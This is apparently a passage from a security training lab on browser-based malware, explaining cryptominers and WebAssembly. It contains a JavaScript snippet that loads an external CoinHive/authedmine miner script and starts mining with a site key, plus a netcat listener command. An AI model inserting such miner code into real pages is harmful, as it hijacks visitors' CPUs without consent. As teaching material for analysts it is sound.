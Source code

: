On JSLab, hit `Ctrl + C` and then `nc -lp 80` again.

### Cryptocurrency Mining

Cryptominers, or programs that use a machine's CPU to mine cryptocurrency, are increasingly being delivered by both legitimate and untrusted sites as a way to make money.  Many crypto miners that do not ask permission to run are being labeled as malware since they are in essence stealing the user's computer resources.  There are many types of cryptocurrency, one we've been seeing lately is Monero which is mined by sites such as Coinhive.

The majority of the cryptominers you will see will be in the form of a Web Assembly (WASM) file which is optimized code that can run significantly faster than JavaScript.

#### Web Assembly

Web Assembly (WASM) can be compared to writing and compiling code to run on an Operating System.  For example, C programs can be compiled for either Windows, Linux, or Mac and for the x64 or x86 architecture.  The compiler scans the entire program and creates an optimized executable containing binary code for the CPU to execute.  After this, the executable should run on any machine with the appropriate OS and architecture.

Web Assembly is similar as it allows you to compile a C program into WASM that will run on any of the major browsers---Safari, Chrome, Firefox, and Edge.  By writing programs in C/C++ and compiling them to WASM, developers can control exactly how memory is allocated and freed making programs much, much faster.  This results in a huge performance boost because the browser is being given code that's already been optimized.  It's basically running native code on the browser.

In other words, WASM is machine code for a *conceptual* machine, not a physical machine since on the web the architecture of the client machine is unknown.  Web assembly doesn't replace JavaScript, but complements it by enabling hybrid designs (WASM + JS).  JavaScript loads a web assembly module, instantiates it, and calls its functions.

The following code downloads a miner written in web assembly and runs it using a Web Worker:

```javascript
function loadMiner() {
	d=document;m=d.createElement("script"); \
	m.src="https://authedmine.com/lib/authedmine.min.js";d.body.appendChild(m);
}
function callMiner() {
	var miner = new CoinHive.Anonymous('zzubRUiOtETDYrjgU2QrqKPw2Rwysx4S', {throttle: 0.3});
    	miner.start();
}
```

Go to the **Sources** tab in DevTools and click the **WASM Miner** button.  You should see a new source file appear from the nfwebminer\[d\]com domain and then a few seconds later a web worker should start:

![](images/JavaScript%20and%20Browser-based%20Malware/image015.png)<br><br>

